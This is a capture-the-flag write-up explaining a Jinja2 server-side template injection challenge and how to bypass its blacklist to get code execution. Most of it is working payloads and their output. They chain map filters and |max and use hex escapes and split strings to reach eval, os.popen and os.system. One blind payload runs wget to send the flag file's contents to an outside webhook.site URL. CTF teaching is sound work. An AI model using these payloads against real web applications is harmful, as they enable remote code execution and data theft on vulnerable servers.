 # Description

This challenge was about acheiving SSTI rce with an abstract way of getting the attributes and builtins. The idea was inspired from the GDG Algiers CTF 2022.

I really loved the idea of using some abstract filter that can <i> "almost" </i> trully bypass any blacklist ( still need more research ) but the main thing is that we can now trully call any attribute using this trick and its rare that a blacklist would prevent you from using the ``map`` filter.

I just wanted it to be a bit harder so i added few more restrictions in my challenge, the same idea persists, but different method and with an extra step

https://github.com/GDGAlgiers/gdg-algiers-ctf-2022-writeups/tree/main/web/pipe-your-way

Shoutout to the authors of `pipe your way` in GDG i really enjoyed that challenge

## Brief solution

My solver using eval payload with lipsum:

```python

{{ lipsum.__globals__.__builtins__['eval']('open("/flag").read()')}}

```

Turned into :

```python

{% set exploit = ((lipsum,)|map(**{"at""tribute" : "\x5F\x5Fglo""bals\x5F\x5F"})|map(**{"at""tribute" : "\x5F\x5Fbui""ltins\x5F\x5F"})|map(**{"at""tribute" : "ev""al"})|max)("o""pen('/fl''ag')\x2Er""ead()") %}{%print(exploit)%}

```

TLDR;

1. using map() filter to get attributes

2. using {% %} to set and print the output since {{}} are blacklisted

3. using |max to get the specific attribute in eval

4. using hex encoding since _ is blacklisted.

5. using quotes trick to bypass filtered words


## Explanation on How to approach :

### Why (lipsum,) ?? 

In jinja or in python u can call multiple functions using () like this : (lipsum,config,cycler,) 

Be aware if u don't add `,` in the end it doesnt work.

### Why even bother to think of this? 

map only works on a an iterated object and since we defined a "tuple" with a lipsum we can choose to map just lipsum

### Why map? 

map is a filter used to access an attribute of an object. 

Example : 
```python

{{ users|map(attribute='username') }}

```

And since we can't apply an attribute directly (like this : ``map(attribute='test')`` ) because attr is filtered so using ``**kwargs`` we can specify we're mapping an attribute

now since all our payload attributes are gonna be inside quotes we can easily bypass the filter with just adding "" in the middle to split the string and using hex for the rest ( note u can use hex for all not just the _ )

thats still not enough...When using map some issues can happen

### WTF is ``|max`` ? 

Great question , so if you noticed i explicitly filtered out ``list`` and ``last`` , practically these do the same thing. let's investigate why ``max`` does the same thing as ``list|last`` in <b> our case </b> !!

let's try and work with this payload :

```lipsum.__globals__.__os__.__popen__('id').read()```

now let's trying using the map technique without max or list or last, stop at popen and see what happens.

Payload : 
```python

{% set x=((lipsum,)|map(**{"attribute" : "__globals__"})|map(**{"attribute" : "os"})|map(**{"attribute" : "popen"})) %} {%print(x)%}

```
	
Output : 
```python

<generator object sync_do_map at 0xfunction_number_here> 

```
	
The issue with map is that while we are trully mapping the attribute, we're not really calling popen, we're calling the map filter thats why you see "sync_do_map"

So how do we fix this?

A better way to understand this is to stop at globals, globals has bunch of attributes right? while os and popen is just one.

Let's try this :

Payload :  

```python

{% set x=((lipsum,)|map(**{"attribute":"__globals__"}))%}{%print(x)%}

```

output : 
```python

<generator object sync_do_map at 0xfunction_number>

```

Payload :  

```python

{% set x=((lipsum,)|map(**{"attribute":"__globals__"})|list)%}{%print(x)%}

```

output : 

```python 

[{'__name__': 'jinja2.utils', '__doc__': None, '__package__': 'jinja2', '__loader...

```

You see what happened now? we got a list the all the attributes, oke now what? still "max" doesnt make any sense..

Now you understand why we need something else other than map we move into popen

So we said popen has just one attribute right?

Yeah so let's try the list thing, same thing right? give us a list of the attributes, in this case just popen function.

Using list only wont completely work yet tho.. why? well to execute a function you have to call it, with just list we're calling the list itself and thats not a function

Payload:

```python

{% set x=((lipsum,)|map(**{"attribute" : "__globals__"})|map(**{"attribute" : "os"})|map(**{"attribute" : "popen"})|list) %}{%print(x)%}

```


Output:

```python

[<function popen at 0xfunction_number>]

```

Payload:

```python 

{% set x=((lipsum,)|map(**{"attribute" : "__globals__"})|map(**{"attribute" : "os"})|map(**{"attribute" : "popen"})|list|last) %}{%print(x)%}

```

Output:

```python 

<function popen at 0xfunction_number>

```

You see how the 'list' brackets are removed now? we directly accessed the popen function !!

Okey now we understand why ``list`` and ``last`` can help us but they're filtered right? :((

Yep! but we can use max! why? 

``max`` will simply return the longest item in a list, and since we have one item in the final attribute (popen) max will simply return that one item ( the popen function itself )

Now we simply use ``max`` instead of ``|list|last`` and we're done!

# Solutions

## ``lipsum`` solution :

```python 

{% set exploit = ((lipsum,)|map(**{"at""tribute" : "\x5F\x5Fglo""bals\x5F\x5F"})|map(**{"at""tribute" : "\x5F\x5Fbui""ltins\x5F\x5F"})|map(**{"at""tribute" : "ev""al"})|max)("o""pen('/fl''ag')\x2Er""ead()") %}{%print(exploit)%}

```

## ``cycler`` solution :

```python

cycler.__init__.__globals__.os.popen('ls').read()

```

Turned into :

```python 

{% set ex= ((cycler,)|map(**{"at""tribute" : "\x5F\x5Fin""it\x5F\x5F"})|map(**{"at""tribute" : "\x5F\x5Fglo""bals\x5F\x5F"})|map(**{"at""tribute" : "os"})|map(**{"at""tribute" : "popen"})|max)('id')%}{%print(ex|max)%} 

```

## Blind solution:

```python

cycler.__init__.__globals__.os.system('') 

```

since system doesnt print out the commands output and we can't use read() on it we go blind

```python

{% set ex= ((cycler,)|map(**{"at""tribute" : "\x5F\x5Fin""it\x5F\x5F"})|map(**{"at""tribute" : "\x5F\x5Fglo""bals\x5F\x5F"})|map(**{"at""tribute" : "os"})|map(**{"at""tribute" : "sy""st""em"})|max)('wget https://webhook.site/8cc2d187-a9df-401b-8f25-0fbf1dac5c33/?c=`c''at /fl''ag`')%}{%print(ex)%}

```
